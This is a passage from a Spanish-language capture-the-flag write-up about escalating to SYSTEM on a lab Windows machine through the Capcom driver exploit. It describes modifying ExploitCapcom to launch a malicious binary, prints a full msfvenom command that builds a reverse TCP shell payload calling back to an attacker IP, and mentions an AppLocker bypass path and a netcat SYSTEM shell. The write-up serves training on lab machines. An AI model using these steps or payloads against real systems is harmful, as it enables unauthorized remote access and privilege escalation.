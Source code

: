## ExploitCapcom.sln

Seguimos leyendo y vemos que cargando el driver podemos utilizar exploits en GitHub para obtener una consola como SYSTEM.

> Clonamos el repositorio ExploitCapcom
> Abrimos el ExpliotCapcom.sln
> Proyecto
> Propiedades de ExploitCapcom
> Conjunto de herramientas de la plataforma: Visual Studio 2022
> Cambiamos el código para que en vez de ejecutar una cmd.exe a nivel de sistema, nos ejecute un binario malicioso que vamos a crear.
> Compilamos
> Tenemos el ExploitCapcom.exe

## msfvenom
Cramos el binario
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o evil.exe
```

Subimos el binario a una ruta con AppLockerBypass

## Binarios
Pasamos los 3 binarios con [[smbserver.py]] desde la máquina W10 a la máquina parrot.

Subimos los binarios a la máquina víctima.

Seguimos los pasos del blog.

> Obtenemos una shell con netcat como nt authority\system

> root.txt
